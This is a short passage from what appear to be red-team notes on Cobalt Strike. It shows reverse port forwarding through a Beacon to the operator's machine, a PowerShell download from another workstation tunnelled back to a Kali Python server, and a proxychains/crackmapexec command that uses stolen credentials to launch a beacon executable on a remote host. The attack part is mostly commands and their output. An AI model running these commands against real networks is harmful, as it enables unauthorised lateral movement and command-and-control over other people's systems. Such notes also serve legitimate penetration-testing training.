 This will bind port 8080 on the machine running the Beacon and will tunnel the traffic to port 8080 of the localhost running the Cobalt Strike client.  Notice how it uses your username as an indicator of where the traffic will go.

Then on another machine in the network, try to download the file.

```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test
```

Of course, we see the request on the Python server.

```
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/) ...
127.0.0.1 - - [23/Jul/2021 19:24:30] "GET /test.txt HTTP/1.1" 200 -
```

## Spawn as another user

```bash
proxychains -q cme smb <ip> -u <user> -p <password> -x "cd <path> && .\beacon177.exe"
```

## References

[https://www.cobaltstrike.com/downloads/csmanual313.pdf](https://www.cobaltstrike.com/downloads/csmanual313.pdf)
